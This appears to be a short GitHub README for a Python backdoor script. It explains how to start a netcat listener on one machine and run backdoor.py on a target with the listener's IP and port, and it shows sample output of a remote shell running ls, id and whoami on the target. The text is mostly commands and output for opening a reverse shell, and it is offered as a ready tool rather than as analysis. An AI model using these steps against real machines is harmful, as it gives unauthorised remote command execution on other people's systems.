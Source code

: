 Simple backdoor implementation that requires the user to set the listening machine's IP/PORT manually. In order for this to work the listening machine has to set up a listener (for example netcat):
```
nc -vv -l -p [PORT]
```
Then on the target machine:
```
python backdoor.py -i [IP] -p [PORT]
```
or
```
python backdoor.py --ip [IP] --port [PORT]
```
ex.
```
nc -vv -l -p 1234
listening on [any] 1234 ...
```
```
python backdoor.py -i 192.168.1.13 -p 1234
```
This should result in a connection between the two machines and allow us to remotely execute shell commands:
```
connect to [192.168.1.13] from pc1.home [192.168.1.10] 60936

[+] Connection established
ls
backdoor.py
venv
id
uid=1000(haf) gid=1000(haf) groups=1000(haf),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),129(libvirt)
whoami
haf
``` 
